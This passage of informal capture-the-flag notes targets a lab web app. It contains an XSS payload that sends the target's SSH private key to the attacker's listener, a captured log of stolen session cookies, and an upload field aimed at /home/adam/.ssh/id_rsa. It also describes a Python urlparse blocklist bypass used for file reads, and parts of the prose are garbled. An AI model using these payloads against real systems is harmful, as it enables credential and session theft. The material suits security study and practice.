 Get the user of a ssh-rsa id_rsa key: (Urck: HackSmarter)
```
ssh-keygen -y -f id_rsa
```

So because of the errors trying to create a report presumably we can back and download the `id_rsa`. From trying a season being dragged along more than dragging others or being more than a CTF gopher. I notice the wonky reasoning that can come from doing these with others. So maybe we use the admin cookie to download a file we specify from the target machine a not from our machine.
![](nvmNoPartPOSTedGETmaybe.png)
But that request method was not the issues, I tried making my own `id_rsa` to them use that as a surrogate, but even with all files selected that did not work in uploading that and modifying the request.

```
Content-Disposition: form-data; name="file"; filename="/home/adam/.ssh/id_rsa"
```

![](postingbackup405.png)

```
Serving HTTP on 0.0.0.0 port 8445 (http://0.0.0.0:8445/) ...
10.10.14.39 - - [03/May/2024 15:42:05] code 404, message File not found
10.10.14.39 - - [03/May/2024 15:42:05] "GET /user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1" 404 -
10.129.95.168 - - [03/May/2024 15:42:11] code 404, message File not found
10.129.95.168 - - [03/May/2024 15:42:11] "GET /user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5 HTTP/1.1" 404
```

I tried to just readFile() to see if that works, which it did not.
```html
<script>fetch("http://10.10.14.39:8445/"+readFile("/home/adam/.ssh/id_rsa"))</script>
```

Ok the next step is LFI in how URLs are parsed in python:
https://infosecwriteups.com/understanding-cve-2023-24329-python-urlparse-function-7c064dee5639

*Description: An issue in the urllib.parse component of Python before 3.11.4 allows attackers to bypass blocklisting methods by supplying a URL that starts with blank characters*

So simple and concise: ` http://cve2023-24329`

*impact: Due to this issue, attackers can bypass any domain or protocol filtering method implemented with a blocklist. Protocol filtering failures can lead to arbitrary file reads, arbitrary command execution, SSRF, and other problems.*

I took the idea that it was an LFI and tried localhost, domains of comprezzor.htb


![](wecancallback.png)

https://ask.libreoffice.org/t/how-can-i-save-my-docs-in-pdf/42399#:~:text=If%20you're%20asking%20how,keep%20the%20original%20as%20is.
![](gleamingthecuuuuuuuuube.png)
[Did not realise this was a film about skateboarding, but funny none the less](https://www.youtube.com/watch?v=_mBy6xMUpM8)
![](nogleamingandmycubeissafememe.png)
[Wikipedia - Gleaming the Cube](https://en.wikipedia.org/wiki/Gleaming_the_Cube), A-Team the small wonder, Grinding the log stroker, wow did they bypass twitchs amy filter on that.. The hackers 1995 soundtrack is pretty good though if that is a realistic takeway from this [Youtube Hackers Soundtrack](https://www.youtube.com/watch?v=k07cflKCl-Y&list=PL6E1AC915A0204BC0&index=1)

